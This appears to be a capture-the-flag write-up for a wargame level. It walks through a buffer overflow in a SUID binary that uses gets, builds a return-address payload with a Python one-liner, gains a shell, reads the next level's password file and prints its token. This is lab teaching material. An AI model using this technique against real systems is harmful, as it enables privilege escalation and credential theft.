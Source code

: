 This programs uses gets that reads from stdin and puts stuff into  a buffern, buffer size is 76 and binary uses SUID so let's cook a buffer overflow

We can also see that there is a function run that's not called and execs bash, we should probably hit that

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

The string above will fill the buffer, we now need to append the target memory address 

In order to format the adress properly, we can use python and the lib struct, it looks like that : 
```python
import struct
struct.pack('<I', 0x08048444)
    b'D\x84\x04\x08'
```

So the adress formatted properly is D\x84\x04\x08 
and now print it into a file that we'll pipe into the process

`python -c 'print("a"*76  + "D\x84\x04\x08")' > /tmp/exploit`

We can now see a different message, confirming that we hit the target function, but still no shell

Turns out, shell reads what's coming from the cat and it sends EOF after the file content, so add - to prevent it from closing stdin after the file

cat /tmp/exploit - | ./level1

now we have a shell, list the token 

cat /home/user/level2/.pass

53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77